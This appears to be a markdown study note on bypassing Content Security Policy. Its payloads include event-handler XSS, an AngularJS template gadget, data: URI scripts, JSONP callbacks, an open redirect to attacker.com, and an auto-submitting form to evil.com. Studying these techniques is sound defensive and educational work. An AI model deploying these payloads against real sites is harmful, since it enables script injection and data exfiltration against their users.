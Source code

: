 #  CSP Bypass & Sandbox Escapes"
`CSP` = Content Security Policy
- A defense header websites set to control what  `JS` , `CSS`, or content can load.

  ## How a content security policy looks like
  ```js
  Content-Security-Policy: script-src 'self' https://trusted.cdn.com
  ```
This means:
> No `<script>alert(1)</script>`
> No `eval()`, no new `function()` and no `javascript:` URIs
> And allso no external scrips unless from `trusted cdn`
something like `only allow scripts from here and block the rest`

## Why youd need to bypass CSP
> If you find a vulnerable site to `XSS` but the `CSP` prevents you from dropping your payload
```js
<script>alert(1)</script>
```
Then, youll need to bypass CSP to drop your payload::
## What to do
1. Using Js functions allowed by CSP
   > If the site is strict on you using `script-src` sometimes, `style-src` or `img-src` works
   ```js
   <svg/onload=alert(1)> <img src=x onerror=alert(1)>
   ```
   or
   ```js
   <meta http-equiv="refresh" content="0;url=javascript:alert(1)">
   ```
   Tells the browser to:
   - auto redirect after 0 secs
   - If `javascript:` is allowed, it will trigger an alert
3. injecting inside script templates or Angular JS templates
    ```js
    <script type="text/ng-template"> 
    {{constructor.constructor('alert(1)')()}}
    </script>
    > This works sometimes because `CSP` only blocks `raw script execution` , not template execution.
    ```
4. Abuse `data:` or `blob:` URIs if allowed
   They are inline ways of embedding scripts or files:
    ```js
   script-src data:
   ```
     Then u can inject:
   
   ```js
   <script src="data:text/javascript,alert(1)"></script>
6. Use `JSONP` or `Open Redirects`
   JSONP (JSON with Padding) is an old technique that lets you call a remote API and get JS returned directly like this:
   ```js
   <script src="https://trusted.com/api?callback=alert"></script>
  ``` ```
  If the site reflects your call back param like:
  ```js
  alert({"data":"someData"});
  ```
  Or If `CSP` allows `script-src *.trusted.com`, this works like gold
  > Open Redirect
    It's when a trusted domain (that CSP allows) lets you redirect anywhere using a param:
    ```js
    https://trusted.com/redirect?to=https://attacker.com
    ```
    Then you inject:
    ```js
    <script src="https://trusted.com/redirect?to=javascript:alert(1)"></script>
    ```
7. Bypass Sandbox with form submission
```js
<form action="https://evil.com" method="POST">
  <input type="submit" id="send">
</form>

<script>
  document.getElementById("send").click();
</script>
